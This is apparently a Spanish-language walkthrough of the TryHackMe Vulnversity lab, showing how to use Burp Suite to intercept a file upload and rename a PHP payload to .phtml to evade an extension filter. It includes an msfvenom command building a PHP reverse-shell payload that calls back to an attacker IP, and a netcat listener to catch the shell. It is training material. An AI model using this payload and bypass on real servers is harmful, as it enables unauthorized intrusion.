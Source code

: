 Maquinas a utilizar **Kali Linux y Laboratorio de Try Hack Me Vulnversity** [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

Vamos a aprender a **utilizar burp suite**, el cual consiste en una herramienta enfocada al hacking web que actúa como proxy entre el navegador y el servidor web, de tal forma que podremos interceptar las peticiones y realizar distintos tipos de ataques.

  

Escribimos en el navegador web la siguiente URL cambiando por supuesto la IP por la que corresponda en ese momento a la maquina victima.

`http://10.10.93.207:3333/internal/`

![[Imagenes/image 35.png|image 35.png]]

Vemos que desde aquí podemos subir archivos. Como ya vimos con anterioridad para subir un archivo con extensión PHP tuvimos que cambiarle la extensión ya que PHP no estaba permitida. Ahora aprenderemos otro forma de hacerlo sin cambiar la extensión del archivo utilizando BurpSuite para interceptar la petición y modificar lo que queramos.

  

- Vamos a aplicar antes de nada un pequeño ajuste dentro del navegador web.
    
    **Ajustes → Settings**
    
    ![[Imagenes/image 1 24.png|image 1 24.png]]
    

**General→ Network Settings**

![[Imagenes/image 2 23.png|image 2 23.png]]

**Manual proxy configuration**

**HTTP Proxy: 127.0.0.1 Port: 8080**

![[Imagenes/image 3 22.png|image 3 22.png]]

  

- Nos creamos un archivo malicioso con extensión PHP
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![[Imagenes/image 4 21.png|image 4 21.png]]
    

  

- En **BurpSuite** nos vamos a la **pestaña Proxy** y pulsamos **intercept on** para activarla.
    
    ![[Imagenes/image 5 20.png|image 5 20.png]]
    

  

- Vamos a intentar subir el archivo malicioso PHP.
    
    ![[Imagenes/image 6 18.png|image 6 18.png]]
    

  

- Nos salta BurpSuite y nos muestra la petición interceptada (esta petición nunca a llegado al servidor BurpSuite la tiene retenida) y yo puedo cambiar lo que me interese de ella.
    
    ![[Imagenes/image 7 16.png|image 7 16.png]]
    

A mi me interesa cambiar el nombre del archivo en la petición de extensión PHP.

![[Imagenes/image 8 15.png|image 8 15.png]]

  

a extensión **PHTML** para que crea que tiene una extensión que en realidad no la tiene.

![[Imagenes/image 9 14.png|image 9 14.png]]

  

- Pulsamos **Forward** para dejar seguir la petición que hemos modificado.
    
    ![[Imagenes/image 10 14.png|image 10 14.png]]
    

Vemos que se a subido correctamente a pesar de ser un archivo con extensión php.

![[Imagenes/image 11 11.png|image 11 11.png]]

- Desconectamos la interceptación en BurpSuite y volvemos a dejar como estaban los ajustes de navegador web.
    
    ![[Imagenes/image 12 11.png|image 12 11.png]]
    
    ![[Imagenes/image 13 11.png|image 13 11.png]]
    

  

- Nos vamos a la ruta donde se encuentran los archivos subidos. Y vemos que ya tenemos el archivo en el servidor. `http://10.10.58.163:3333/internal/uploads/`
    
    ![[Imagenes/image 14 9.png|image 14 9.png]]
    

Vemos que aquí no muestra como php si no como phtml , esto es por que el cree que es phtml.

  

- Nos ponemos a la escucha con netcat.
    
    ```Bash
    nc -nlvp 443
    ```
    
    ![[Imagenes/image 15 8.png|image 15 8.png]]
    

  

- Ejecutamos el archivo malicioso y recibimos la conexión y nos encontramos dentro de la maquina. Pero esta vez utilizando BuspSuite. Recordemos que intentemos estabilizar la conexión ya que msfvomon es muy inestable.
    
    ![[Imagenes/image 16 5.png|image 16 5.png]]